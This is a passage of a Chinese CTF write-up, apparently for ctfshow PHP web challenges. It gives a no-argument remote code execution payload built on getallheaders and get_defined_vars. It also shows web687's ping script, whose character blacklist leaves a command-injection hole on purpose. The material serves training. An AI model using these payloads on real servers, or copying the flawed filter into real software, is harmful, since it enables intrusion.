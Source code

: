 给出payload：

第一种：

利用`getallheaders`

```
?code=system(pos(getallheaders()));
```

getallheaders获取请求信息的头部，一般第一个数组指针就是X-Forwarded_For

![image-20220701104857605](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701104857605.png)



所以构造，current和pos等价的

![image-20220701104945352](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701104945352.png)

第二种：

利用`get_defined_vars`

![image-20220701105055246](C:/Users/15908387732/AppData/Roaming/Typora/typora-user-images/image-20220701105055246.png)

可以利用get参数和post参数，cookie也可以

![image-20220701105220942](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701105220942.png)

post参数：

![image-20220701105320015](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701105320015.png)



##  web687

关于命令执行的绕过方式：https://blog.csdn.net/qq_45836474/article/details/107248010

```php
<?php
    highlight_file(__FILE__);
    $target = $_REQUEST[ 'ip' ];
    $target=trim($target);
    $substitutions = array(
        '&'  => '',
        ';' => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 1 ' . $target );
    echo  "<pre>{$cmd}</pre>";
```
